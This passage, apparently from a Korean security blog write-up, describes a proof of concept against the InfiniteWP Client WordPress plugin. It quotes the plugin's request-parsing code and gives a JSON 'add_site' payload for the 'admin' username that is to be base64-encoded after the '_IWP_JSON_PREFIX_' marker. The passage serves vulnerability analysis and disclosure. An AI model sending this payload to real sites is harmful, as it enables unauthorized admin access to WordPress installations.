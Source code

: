 [How to install the admin panel manually - DIY installation](https://support.infinitewp.com/support/solutions/articles/216109-how-to-install-the-admin-panel-manually)

![image.png](assets/posts/one-day/2024-11-16/img-002.png)

<br>
## **3. PoC**

아래는 init.php 파일의 iwp_mmb_parse_request 함수로 클라이언트의 요청을 파싱하고 있다. `_IWP_JSON_PREFIX_` **문자열 이후의 데이터를 추출하여 data 변수에 저장한다.

```php
global $current_user, $iwp_mmb_core, $new_actions, $wp_db_version, $wpmu_version, $_wp_using_ext_object_cache;
if (strrpos($HTTP_RAW_POST_DATA_LOCAL, '_IWP_JSON_PREFIX_') !== false) {
	$request_data_array = explode('_IWP_JSON_PREFIX_', $HTTP_RAW_POST_DATA_LOCAL);
	$request_raw_data = $request_data_array[1];
	$data = trim(base64_decode($request_raw_data));
	$GLOBALS['IWP_JSON_COMMUNICATION'] = 1;
}
```

<br>
`add_site`라는 액션을 통해 특정 Wordpress 사이트를 관리자 패널에 추가하고 추가될 사이트의 `username`을 `params`내에 포함시킨다.

```json
{"iwp_action": "add_site", "params": {"username": "admin"}}
```

<br>
따라서,  `_IWP_JSON_PREFIX_` 문자열 이후에 base64 인코딩한 페이로드를 삽입하여 요청을 시도한다.
